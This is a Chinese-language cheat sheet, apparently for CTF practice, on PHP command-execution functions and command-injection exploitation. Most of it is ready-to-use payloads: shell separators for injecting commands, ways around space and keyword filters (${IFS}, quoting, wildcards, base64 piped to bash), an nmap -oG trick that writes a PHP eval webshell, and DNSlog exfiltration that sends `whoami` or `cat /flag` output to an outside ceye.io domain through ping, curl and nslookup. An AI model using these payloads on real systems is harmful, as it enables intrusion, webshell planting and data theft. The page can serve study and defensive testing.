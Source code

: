 ## **php命令执行函数**
php的命令行执行函数：
```
反撇号 `` ：输出并返回shell结果。
    用法：echo `whoami`;
system()：执行外部程序，并且显示输出
    用法：system('whoami')
passthru()
    执行外部程序并且显示原始输出。
    用法：passthru('whoami')
shell_exec()
    通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
    用法：shell_exec('id’);
exec()
    不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面
    用法：exec($_POST['system'], $output);print_r($output);
popen()
proc_open()
pcntl_exec()
```


## **0x00.远程命令执行**

应用程序会调用系统的命令函数，当攻击者可以控制这些函数的参数时，就可以把恶意命令拼接到正常命令中，从而造成远程命令执行漏洞

1. 命令注入漏洞产生的原因
```
1、用户可以控制输入的内容
2、用户输入的内容被当作命令执行
```
2. 漏洞产生位置
* web源码\
  Nexus\
  Webmin\
  ElasticSearch
* 中间件平台\
  weblogic\
  Apache
* 其他环境\
  Postgresql\
  Samba\
  Supervisord



## **0x01.常用命令执行**
shell_exec("ping -c 4 ".$ip);
如ping 4次功能输入框
```

& 前后命令同时进行
ping -c 2 127.0.0.1 & cat /flag
ping -c 2 127.0.0.1 & cat flag.php  

;  先前后后命令都执行
ping -c 2 127.0.0.1 ; cat flag.php  

&& 前面成功，后面才执行

| 管道符，前面结果作为后面的参数

|| 前面失败，后面才执行



namp参数写文件webshell
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '

?host=' <?= @eval($_POST[1]);?> -oG a.phtml '
```



## **0x02.空格绕过**
网站过滤了空格，命令中不能出现空格
```
1. 使用linux下的分割符变量替换空格：
$IFS   =  ${IFS}    $IFS$1
如：cat$IFS$1/flag

2.替换无空格命令
{cat,/flag}

3.替换无空格命令
cat</flag

4.cat%09/flag
%09 table符url编码，有可能绕过白名单了会再解码一次。
```



## **0x03.命令字符替换**
ls换dir
cat查看命令替换：
```
cat    从第一行开始显示全部内容
tac    从最后一行显示全部内容
nl    显示全部内容，且前面有行号
more    按页显示文本
less        按页显示文本
head    显示头指定的行数
tail    显示尾指定的行数
c'a't  加引号
ca""t
ca\t  加一个换行符一样可执行
```

名称替换，如flag
```
flag
f*
f???
a=g;cat fla$a  //定义a变量，替换变量
fla${b}g   //没有b变量，替换为空白

fla\g   //加一个换行符一样可执行
fla'g'  //加引号
```
## **0x04.组合绕过命令**
```
输出flag.php文件中内容：
echo cat flag.php|bash
$IFS$作分隔符：
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
//Y2F0IGZsYWcucGhw ->cat flag.php,输出给base64还原然后sh执行



假如当前目录只有flag.php文件，先ls，再作为参数cat。
cat `ls` 
$IFS$作分隔符：
cat$IFS$9`ls` 
//内联，就是将反引号内命令的输出作为输入执行。
```

## **0x05.无回显远程命令**
1. bash反弹shell
2. DNSlog携带
```
ping ：
ping `whoami`.ip.port.2qytvx.ceye.io
ping对域名比较严格，域名不能有{}，==
找不到主机:
{666}.2qytvx.ceye.io
2qytvx.ceye.io/{666}

curl ：
curl -X POST http://ip.port.xxxxxx.ceye.io/`whoami`
会先执行whoami,再ping,curl


nslookup:
nslookup `cat /flag`.2qytvx.ceye.io
nslookup `cat /flag | base64`.2qytvx.ceye.io
```


## **0x06.限制命令长度的远程命令**
如限制命令长度字符为9:
把超过9的命令进行base64编码
差分不同段成符合长度
命令换行
倒序每一个命令生成以文件名
文件名按时间查看，并写入一个文件
sh x 执行文件

^
查看当前目录中的文件内容flag。
先>nl
再*